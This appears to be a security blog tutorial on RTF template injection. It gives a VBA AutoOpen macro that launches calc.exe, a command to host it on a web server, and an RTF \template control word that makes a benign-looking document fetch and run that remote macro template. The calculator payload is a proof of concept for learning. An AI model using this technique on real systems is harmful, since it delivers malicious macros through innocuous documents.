 ```yaml
---
layout: post
title: 'RTF Template Injection'
date: '2022-02-09'
description: 'In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files.'
coverimage: RTF_Template_Injection.jpg
tags: exploit-development, rtf
published: true
posttype: article
categories: article
---
```


In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files.

## What is an RTF file?

Tapping away in front of your Macintosh or the early versions of Windows, did you ever wonder what those .rtf files (Rich Text Format) were that you ever so occasionally encountered? The ones that were opened up with text editors (featuring a horizontal ruler) other than your trusted notepad?

RTF traces back to the late 1980s when it was developed and released. Rich text format files, as opposed to plain text files, can contain images, different font styles, formatting, and more. They are interoperable, which means they can be processed by a wide range of technologies, making them a portable file type. 

## Why should I care?

"Why should I care?" you might wonder. The short answer is that with little modification, this technique can be leveraged to spread malicious macros in otherwise benign RTF files - as actively being done by threat actor groups online. Within RTF files, specific control words (see http://latex2rtf.sourceforge.net/rtfspec_62.html for more) are used. These control words are specially formatted commands that instruct applications how to handle the file. Let us get started!  

# Instructions - RTF template injection with a calculator pop-up

In this example, we will demonstrate how to use the "template" control word to cause an RTF file to fetch another file from a web server controlled by us.  This example makes use of the template editing capabilities of RTF files, as well as the ability to fetch resources from a specified URL. The code we will use opens up a calculator on a Windows-based operating system when the RTF file is run. Note that macros will require enabling on your system.

<h5 class="step">Step 1 - Create a macro-enabled Word template file</h5>

This file will contain our macro that executes the calculator app when the RTF file is opened. 

Open Word and add the following Visual Basic code (macro) to it. Save the file as `calc.dotm`. 

```
Sub AutoOpen()
Dim Program As String
Dim TaskID As Double
Program = "calc.exe"
TaskID = Shell(Program, 1)
End Sub
```

*If you are unfamiliar with creating Word template files, we recommend checking out Microsoft's documentation on them: https://support.microsoft.com/en-us/office/save-a-word-document-as-a-template-cb17846d-ecec-49d4-82ea-a6f5e3e8b9ae.*

<h5 class="step">Step 2 - Start a web server</h5>

Launch an HTTP server in the folder containing the 'calc.dotm' file using your preferred method. If you are using Python 3, you can use the following command with the port number of your choice. 

```
python3 -m http.server <port number>
```

<h5 class="step">Step 3 - Create a benign RTF file</h5>

Get or make a simple RTF file. We will modify this in the next step to fetch our macro-enabled template file from the web server launched.

![](5e05c49b-2704-464a-9eb8-6afe16b298ec.png)

*There are sample RTF files you can use available online. Please always have your anti-virus solution enabled when downloading files from the Internet.*

<h5 class="step">Step 4 - Add remote template fetching capabilities to the RTF file</h5>

Use a HEX editor to open the RTF file created in the previous step. I used Hex Editor Neo. 

Look for a pre-existing enclosing group for a font family control word (for example, Times New Roman if your file uses it). Insert the following text after the font's ending tag with your listening IP and port + payload/file to fetch. 

```
{\*\template http://<your-IP>:<port number>/calc.dotm}
```

![](514cab5a-57fa-4783-9db1-35ca3867a8ef.png)

<h5 class="step">Step 5 - Show time</h5>

Save the changes and open the RTF file in its default application. If you are a Windows user, this will likely be Word. The remote file will be loaded from your web server and used to launch the calculator program when the RTF file is opened.

The below screen capture displays the macro-enabled template file being fetched.

![](20e0eb7d-9a66-4ff2-991c-366e9a7a3d84.png)

The below screen capture displays the RTF file opened and the calculator app launched.

![](c6ec75ba-dad0-4755-903a-7de8f5065320.png)

### Well that was easy... Where to from here?

I hope this article has served as a foundation for your further explorations. Why not look into creating your custom macro-enabled template files next?